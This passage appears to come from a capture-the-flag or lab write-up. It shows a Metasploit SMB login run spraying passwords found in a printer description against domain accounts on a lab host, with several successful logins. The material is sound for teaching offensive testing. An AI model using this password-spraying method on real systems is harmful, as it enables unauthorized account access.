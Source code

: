After enumerating the machine through RPC with `rpcclient` for awhile and finding a bunch of useful information, I hit the jackpot when checking for printers. In the description field someone had left a helpful note telling users where the printer was located, and also what the password was!

```text
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.193:445      - 10.10.10.193:445 - Starting SMB login bruteforce
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:$fab@s3Rv1ce$1',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\tlavel:Fabricorp01'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:$fab@s3Rv1ce$1',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\bhult:Fabricorp01'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\administrator:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\administrator:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\administrator:$fab@s3Rv1ce$1',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\bnielson:Fabricorp01'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\Administrator:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\Administrator:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\Administrator:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\Guest:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\Guest:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\Guest:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\krbtgt:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\krbtgt:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\krbtgt:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\DefaultAccount:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\DefaultAccount:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\DefaultAccount:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\svc-print:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\svc-print:Fabricorp01',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\svc-print:$fab@s3Rv1ce$1'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\svc-scan:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\svc-scan:Fabricorp01',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\svc-scan:$fab@s3Rv1ce$1'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\dandrews:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\dandrews:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\dandrews:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\mberbatov:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\mberbatov:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\mberbatov:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\astein:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\astein:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\astein:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\dmuir:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\dmuir:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\dmuir:$fab@s3Rv1ce$1',
[*] 10.10.10.193:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
